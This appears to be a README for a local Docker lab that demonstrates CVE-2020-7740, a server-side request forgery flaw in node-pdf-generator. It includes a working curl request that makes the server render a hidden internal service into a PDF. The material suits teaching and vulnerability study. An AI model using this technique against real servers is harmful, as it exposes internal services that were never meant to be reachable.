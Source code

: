 # CVE-2020-7740

This affects all versions of package [`node-pdf-generator`](https://github.com/darrenhaken/node-pdf-generator). Due to lack of user input validation and sanitization done to the content given to node-pdf-generator, it is possible for an attacker to craft a url that will be passed to an external server allowing an SSRF attack.


[Source](https://nvd.nist.gov/vuln/detail/CVE-2020-7740)


## Quick start with docker
1. Build the container with 
2. Run the container with `docker run -p 3000:3000 cve-2020-7740`
3. Notice that we cannot visit [`localhost:3001`](http://localhost:3001) directly
4. Send the request with curl using `curl --location --request GET localhost:3000/test --data-raw http://localhost:3001 --output test.pdf`
5. View `test.pdf` to view the localhost website that is supposed to be hidden.

## Quick start Without docker
1. Clone the project using `git clone {link to be inserted}`
2. Install the dependencies from `https://wkhtmltopdf.org/`
3. Start the server using `node .\node-pdf-generator-server` the server will be running at `localhost:3000`
4. Install the requirements of the hidden python server using `python -m pip install -r requirements.txt`
5. Start the hidden server using `python "hidden service"` the server will be running at ['localhost:3001`](http://localhost:3001)



# How does it work?
1. A get request with a body is sent to the server. This can be sent using `curl --location --request GET localhost:3000/test --data-raw http://www.google.com --output test.pdf`
2. This will save a copy of the html page of `http://www.google.com` to the file `test.pdf`


# Why is it vulnerable?
1. Other URLs that is fed to the server will be visited by the server in order for it to convert the website to pdf.
2. This allows the user forge a server request by giving the server an internal IP address for it to target.


# More information on the CVE-2020-7740
1. [Vicarius.io](https://www.vicarius.io/research-center/vulnerability/cve-2020-7740-id264841)
2. [NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-7740)
3. [Original Repository](https://github.com/darrenhaken/node-pdf-generator)

